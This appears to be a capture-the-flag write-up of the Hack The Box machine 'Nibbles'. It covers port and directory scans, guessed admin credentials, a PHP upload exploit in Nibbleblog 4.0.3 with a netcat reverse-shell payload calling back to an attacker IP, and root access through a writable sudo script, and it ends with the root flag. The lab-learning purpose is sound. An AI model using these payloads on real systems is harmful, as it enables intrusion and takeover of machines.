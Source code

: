 ```yaml
---
title: Nibbles
author: Jacek Cytera
date: \today
geometry: margin=2cm

---
```


\tableofcontents
\pagebreak
        

# Recon

Found open port with ssh(22) and http(80)

```
> nmap -p- 10.10.10.75 -Pn
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-17 20:31 CET
Nmap scan report for 10.10.10.75
Host is up (0.059s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 19.19 seconds
```

Simple request at ip reveals existence of /nibbleblog/ directory.


```
> curl 10.10.10.75
<b>Hello world!</b>

<!-- /nibbleblog/ directory. Nothing interesting here! -->
```

Web content enumeration scan reveals admin.php file.

```
> gobuster dir -u http://10.129.200.170/nibbleblog/ --wordlist common.txt
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.200.170/nibbleblog/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/03/22 20:00:27 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 304]
/.htaccess            (Status: 403) [Size: 309]
/.htpasswd            (Status: 403) [Size: 309]
/README               (Status: 200) [Size: 4628]
/admin                (Status: 301) [Size: 327] [--> http://10.129.200.170/nibbleblog/admin/]
/admin.php            (Status: 200) [Size: 1401]
/content              (Status: 301) [Size: 329] [--> http://10.129.200.170/nibbleblog/content/]
/index.php            (Status: 200) [Size: 2987]
/languages            (Status: 301) [Size: 331] [--> http://10.129.200.170/nibbleblog/languages/]
/plugins              (Status: 301) [Size: 329] [--> http://10.129.200.170/nibbleblog/plugins/]
/themes               (Status: 301) [Size: 328] [--> http://10.129.200.170/nibbleblog/themes/]
```

# Exploitation 

After accessing admin.php file and some tries, it was possible to guess admin credentials:

login: admin
password: nibbles

![](1.jpg)

Server has vulnerable version of nibbles blog (4.0.3).
That means it is possible to upload arbitrary .php file on it, and execute it's contents.
This can be done via plugins menu:

![](2.jpg)

We create simple reverse-shell payload:

```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.13 9443 >/tmp/f"); ?>

```

Then, we upload it via plugin system, clicking browse, selecting file with payload,
and choosing "Save changes". 

After that, we listen on 9943 port on attack machine, and activate reverse shell
with curl request.

```sh
nc -lvnp 9443
curl http://10.129.200.170/nibbleblog/content/private/plugins/my_image/image.php

```

After that, we upgrade our shell with python script on victim machine:

```sh
python3 -c 'import pty; pty.spawn("/bin/bash")'

```

# Privilege Escalation 

In user home directory, there are files:

```
> ls
personal.zip  user.txt

```

After unzipping contents of personal.zip, following folder structure appears:

```
> tree personal

personal
`-- stuff
    `-- monitor.sh

1 directory, 1 file

```

File monitor.sh is writeable by everyone:

```
$ ls -al monitor.sh

-rwxrwxrwx 1 nibbler nibbler 4015 May  8  2015 monitor.sh

```

And can be run with sudo without password:

```
$ sudo -l

Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh

```

It can be exploited by adding /bin/bash at the end of the file, and executing it
with sudo:

```
$ echo "/bin/bash" >> monitor.sh
$ sudo /home/nibbler/personal/stuff/monitor.sh

```

We gain access to root shell.

```
# cat /root/root.txt
de5e5d6619862a8aa5b9b212314e0cdd
```
